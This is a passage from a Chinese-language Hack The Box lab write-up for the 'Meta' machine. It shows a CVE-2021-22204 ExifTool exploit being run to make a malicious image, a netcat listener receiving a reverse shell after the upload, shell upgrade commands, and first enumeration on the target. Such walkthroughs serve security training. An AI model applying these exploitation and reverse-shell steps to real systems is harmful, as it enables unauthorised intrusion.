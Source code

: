 运行漏洞创建我们的恶意图像文件:

```
┌──(root💀kali)-[~/htb/meta/CVE-2021-22204-exiftool]
└─# python3 exploit.py
    1 image files updated
```

现在启动一个 nc 监听端口 1337，然后返回到网站并上传我们的图像:

![](img/9b6d6ba95b22cedb44b913e37d0df468.png)

上传恶意图像文件

# 反向外壳

切换到我们的监听器，看看我们连接:

```
┌──(root💀kali)-[~/htb/meta]
└─# nc -nlvp 1337  
listening on [any] 1337 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.140] 40330
$
```

在我们环顾四周之前升级 shell:

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/CVE-2021-22204-exiftool]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ stty rows 51 cols 237
```

我们只是一个低级服务客户:

```
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

只有一个用户:

```
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ls -lsa /home
4 drwxr-xr-x  6 thomas thomas 4096 Jan 23 04:11 thomas
```
